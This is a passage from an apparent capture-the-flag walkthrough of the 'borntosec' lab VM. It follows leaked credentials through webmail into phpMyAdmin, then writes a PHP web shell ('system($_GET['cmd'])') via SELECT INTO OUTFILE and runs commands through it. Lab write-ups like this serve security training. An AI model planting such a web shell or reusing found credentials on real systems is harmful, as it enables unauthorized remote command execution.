 We see that a password was mistakenly passed as a username. The actual user is **lmezard** (this can be found at the top of the page).

We log in as this user and find their email address in their profile: **[laurie@borntosec.net](mailto:laurie@borntosec.net)**

---

# Part 3: Mail

With the email address, we go to the webmail service: [https://192.168.56.101/webmail](https://192.168.56.101/webmail)

We use the email as the username and the previously recovered password to access the inbox.

There are two emails:

* DB access
* Very interesting !!!!

Only the first one is relevant. It contains the database login credentials:

* user: **root**
* password: **Fg-'kKXBj87E\:aJ\$**

---

# Part 4: PHPMyAdmin

We use these credentials to access: [https://192.168.56.101/phpmyadmin](https://192.168.56.101/phpmyadmin)

From PHPMyAdmin, we can perform an SQL injection to create a route that will allow us to execute commands on the server.

We run the following SQL command:

```sql
SELECT "<pre><?php system($_GET['cmd'])?></pre>" INTO OUTFILE '/var/www/forum/templates_c/shell.php'
```

After this command is executed, we can use the route `/forum/templates_c/shell.php?cmd=...` to extract data from the server.

From the browser, we run:
[https://192.168.56.101/forum/templates\_c/shell.php?cmd=find+/home](https://192.168.56.101/forum/templates_c/shell.php?cmd=find+/home)

Which gives us:

```
/home
/home/LOOKATME
/home/LOOKATME/password
/home/ft_root
/home/laurie
/home/laurie@borntosec.net
/home/lmezard
/home/thor
/home/zaz
```
